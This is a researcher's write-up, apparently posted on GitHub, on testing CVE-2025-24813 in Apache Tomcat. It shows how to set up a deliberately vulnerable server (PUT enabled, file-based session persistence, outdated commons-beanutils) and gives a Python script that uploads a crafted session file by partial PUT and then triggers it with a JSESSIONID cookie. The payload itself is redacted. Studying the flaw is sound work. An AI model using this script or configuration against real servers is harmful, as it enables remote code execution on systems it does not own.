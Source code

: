 # 2025-03-14 (Friday): Testing CVE-2025-24813

## Author

- Yiheng An

## Original References

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html

## Versions Affected

- Apache Tomcat 11.0.0-M1 to 11.0.2
- Apache Tomcat 10.1.0-M1 to 10.1.34
- Apache Tomcat 9.0.0.M1 to 9.0.98

## Notes

CVE-2025-24813 is a recently announced vulnerability for Apache Tomcat. Apache is an open-source web server platform, and Tomcat is software that allows Apache web servers to run Java servlets.

Exploiting this vulnerability consists of two steps:

1. Arbitrary file writing
2. Insecure deserialization

####  Arbitrary File Writing

When session persistence is enabled in Tomcat, the server will serialize all active user sessions before shutting down. Upon restarting, Tomcat will deserialize these sessions, allowing user sessions to remain active without users being aware of the server restart. 

However, if the HTTP PUT method in Tomcat is enabled, files uploaded via HTTP PUT requests may be cached in the same directory where serialized session data is stored. On a vulnerable web server, an attacker might be able to exploit CVE-2025-24813 to save malicious files to the serialized session data directory.

#### Insecure Deserialization

After saving a malicious file to the directory for serialized session data. An attacker could use a crafted cookie to "wake up" a session. This could potentially trigger Tomcat to deserialize a maliciously crafted session file, allowing exploitation through deserialization vulnerabilities

## Testing an Exploit 

We successfully tested an exploit for CVE-2025-24813 on an Apache web server running an outdated version of Tomcat with an outdated version of Java.

Note: All URLs below have been de-fanged.

#### Test Environment

- Ubuntu 24 Server
- Apache-Tomcat 9.0.90
  - hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
- Java 8.0.442-zulu
- Some depdendencies
  - hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
  - htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

#### Establishing a Vulnerable Tomcat Configuration

1. Enable PUT

   Edit `tomcat/conf/web.xml` to add a `readonly` parameter under the `default` servlet name section and set it to `false`. An example is shown below near the end of the code.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence

   Edit `/tomcat/conf/content.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```

3. Using the following commands, create a directory at `/tomcat/webapps/ROOT/WEB-INF/lib` and place two outdated dependencies within it.

   ```
   mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
   ```

#### Exploit

We used [Java Chains](https://github.com/vulhub/java-chains) to create a specially crafted session file and send it to a temporarily vulnerable web server running Apache Tomcat at `www.wiresharkworkshop[.]online`. Below is an example of Python script used for this purpose. The malicious session file is named `gopan.session` but can be changed to any name.

```python
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```
